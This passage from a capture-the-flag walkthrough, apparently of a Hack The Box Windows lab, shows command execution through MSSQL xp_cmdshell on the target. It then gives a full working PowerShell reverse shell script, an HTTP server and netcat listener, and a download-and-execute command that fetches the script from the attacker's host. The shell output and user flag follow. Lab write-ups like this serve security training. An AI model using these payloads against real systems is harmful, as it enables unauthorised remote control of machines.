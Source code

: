 From here, it is possible to get command execution. Here is one example:

```none
xp_cmdshell 'whoami'
go
```

The output formatting is terrible in this tool. Where a simple `whoami` almost takes half a terminal screen. Regardless, command execution working. The next step was to get a reverse shell. 

## Reverse Shell using MSSQL XP_CMDSHELL

Since I am still expanding my MS pentesting skills, needed some serious trial and error getting a reverse shell. Powershell is still quite foreign to me. But luckily there are lots of good resources. Looking over the [PayloadsAllTheThings/Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell) section on Powershell - got me a nice reverse shell example.

I modified it a little - so that it could be executed from a file. I saved the following info in `shell.ps1`.

```none
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.15", 9001);$stream = $client.GetStream();[byte[]]$bytes=0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

The next step was to upload the reverse shell to the Windows server and execute it. To get prepared, I started a Python HTTP server (in the directory with `shell.ps1`):

```none
python3 -m http.server 8000
```

And also started a netcat listener:

```none
nc -lvnp 9001
```

The next step, upload my Powershell code in the MSSQL console.

```none
xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.15:8000/shell.ps1');"
go
```

## Flag: User

Success - a reverse shell!

```none
└─$ nc -lvnp 9001                                 
listening on [any] 9001 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.27] 49685
# whoami.exe
archetype\sql_svc
# Get-Host | Select-Object Version

Version    
-------    
5.1.17763.1


# (Get-Content C:\Users\sql_svc\Desktop\user.txt | Measure-Object -Character).Characters
32
```
